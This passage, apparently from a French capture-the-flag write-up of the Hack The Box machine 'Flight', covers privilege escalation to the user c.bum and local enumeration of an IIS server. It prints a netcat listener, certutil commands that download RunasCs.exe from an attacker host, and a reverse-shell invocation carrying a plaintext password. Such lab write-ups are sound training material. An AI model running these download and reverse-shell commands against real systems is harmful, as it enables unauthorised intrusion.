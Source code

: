 On obtient ainsi un premier shell en tant qu'utilisateur `svc_apache`
![Flight-11](../../Flight-11.png)

## Elevation de privilèges en tant que c.bum

On utilise ensuite l'outil `RunasCs.exe` pour exécuter un nouveau reverse shell en tant que `c.bum` :
- On lance un listener : `rlwrap nc -lnvp 1338`
- On télécharger notre outil :
```shell title="Téléchargement d'un fichier à l'aide de certutil"
certutil.exe -urlcache -split -f "http://10.10.14.149:1234/RunasCS.exe" RunasCS.exe
certutil.exe -urlcache -split -f "http://$($LHOST):$LPORTW_WIN_TOOLS/$File" $Dest
```
- On exécute le reverse shell :
```
RunasCS.exe c.bum Tikkycoll_431012284 powershell.exe -r 10.10.14.149:1338                                                                                                              
```

### Enumération locale
On constate la présence du dossier `c:\inetpub`, dossier caractéristique de la présence d'un serveur web IIS.

Cette fonctionnalité est toujours installée :

```powershell
PS C:\> get-windowsfeature web-server | fl DisplayName, InstallState

DisplayName  : Web Server (IIS)
InstallState : Installed
```

Et le processus est en cours d'exécution :

```powershell
PS C:\xampp\htdocs\school.flight.htb> Get-Process w3wp

Handles  NPM(K)    PM(K)      WS(K)     CPU(s)     Id  SI ProcessName                                                  
-------  ------    -----      -----     ------     --  -- -----------                                                  
    497      40    76040      63584              4360   0 w3wp              
```

Après vérification, on constate que `c.bum` dispose de droits en écriture sur le dossier à l'aide de la commande `accesschk.exe -accepteula -w c:\inetpub` (il faut au préalable l'uploader sur la machine)
